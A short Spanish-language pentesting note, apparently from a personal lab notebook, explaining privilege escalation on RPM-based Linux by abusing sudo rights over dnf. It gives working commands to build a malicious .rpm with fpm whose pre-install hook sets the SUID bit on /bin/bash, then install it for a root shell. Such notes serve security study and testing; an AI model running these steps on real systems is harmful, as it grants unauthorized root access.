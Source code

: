 Esta forma de escalar se da en distribuciones de Linux basadas en RPM como fedora:
![[Pasted image 20240415104024.png]]
Desde la máquina atacante generamos un archivo .rpm malicioso que contiene el comando chmod u+s /bin/bash:
```bash
TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```
![[Pasted image 20240415104102.png]]
Lo compartimos con la máquina víctima:
![[Pasted image 20240415103815.png]]
Desde la máquina víctima ejecutamos el siguiente comando:
```bash
sudo /usr/bin/dnf install -y virus.rpm
```
![[Pasted image 20240415103856.png]]
Y ahora ya se habrá ejecutado el comando chmod u+s /bin/bash y podremos escalar a root:
![[Pasted image 20240415103923.png]]
